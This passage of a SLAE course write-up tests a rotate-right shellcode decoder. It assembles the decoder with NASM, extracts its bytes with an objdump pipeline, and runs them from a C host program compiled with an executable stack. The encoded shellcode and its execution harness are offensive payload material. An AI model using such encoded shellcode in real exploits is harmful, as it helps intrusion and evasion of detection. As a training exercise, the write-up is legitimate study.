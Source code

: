# Testing the Decoder
## Compiling Shellcode and Host Program
#### Compiling the Decoder
```bash
nasm -f elf32 rotateRightDecoder.nasm -o rotateRightDecoder.o
ld -o rotateRightDecoder rotateRightDecoder.o
```
+ To compile my Assembly code I used the NASM Compiler with these commands. After creating the object file with NASM, I linked the object file using `ld`.  
+ Trying to run the decoder itself fails with a segmentation dump.
+ We will extract the hex code using the objdump cl-fu method above and inject it into a host program.

#### Extracting the Hex from the Decoder
```console
root# objdump -d 4-rolDecoder | grep '[0-9a-f]:' | \
grep -v 'file'| cut -f2 -d: | cut -f1-6 -d' ' | \
tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | \
sed 's/ /\\x/g' | paste -d '' -s | sed 's/^/"/' | \
sed 's/$/"/g' 
"\xeb\x0b\x5e\xd0\x0e\x80\x3e\xff\x74\x08\x46\xeb\xf6\xe8"
"\xf0\xff\xff\xff\x62\x81\xa0\xd0\x5e\x5e\xe6\xd0\xd0\x5e"
"\xc4\xd2\xdc\x13\xc7\xa0\x13\xc5\xa6\x13\xc3\x61\x16\x9b"
"\x01\xff"
```
+ Now we will load this into our `shellcode.c` host program.

#### Shellcode.c Host Program
```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x0b\x5e\xd0\x0e\x80\x3e\xff\x74\x08\x46\xeb\xf6\xe8"
"\xf0\xff\xff\xff\x62\x81\xa0\xd0\x5e\x5e\xe6\xd0\xd0\x5e"
"\xc4\xd2\xdc\x13\xc7\xa0\x13\xc5\xa6\x13\xc3\x61\x16\x9b\x01\xff";
main()
{
        printf("Shellcode Length:  %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```
+ I tested the shellcode using the C program shown in the SLAE course.   
+ After extracting the shellcode using the above bash script, I added it to the C program as the `code[]` array.  

#### Compiling Host C Program
```console
gcc -fno-stack-protector -z execstack -o shellcode shellcode.c
```
